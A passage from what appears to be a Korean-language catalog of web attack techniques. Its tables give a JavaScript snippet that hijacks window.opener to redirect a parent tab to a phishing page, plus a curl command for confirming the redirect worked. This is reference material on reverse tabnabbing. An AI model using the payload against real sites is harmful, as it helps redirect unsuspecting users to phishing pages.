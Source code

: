       <td>[1]</td>
    </tr>
  </tbody>
</table>

### Manipulation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>window.opener Hijacking</td>
      <td>
        <pre><code>if (window.opener) {
  window.opener.location = "http://127.0.0.1:8080/Desktop/malicious_redir.html";
}</code></pre>
      </td>
      <td>새로 열린 자식 창에서 window.opener 객체를 사용하여, 사용자가 인지하지 못하는 사이 원본 부모 창의 주소(location)를 공격자가 제어하는 피싱 페이지로 몰래 변경한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Attack Success Validation</td>
      <td>
        <pre><code># 공격자 서버에서 수신 로그 확인 또는
# 자동화된 브라우저로 리디렉션 여부 확인
curl -I http://original-site.com/</code></pre>
      </td>
      <td>공격자의 피싱 서버 로그를 확인하거나 headless 브라우저를 이용한 자동화 테스트를 통해, 부모 창의 리디렉션이 성공적으로 이루어졌는지 기술적으로 확인하여 공격의 작동 여부를 검증한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>
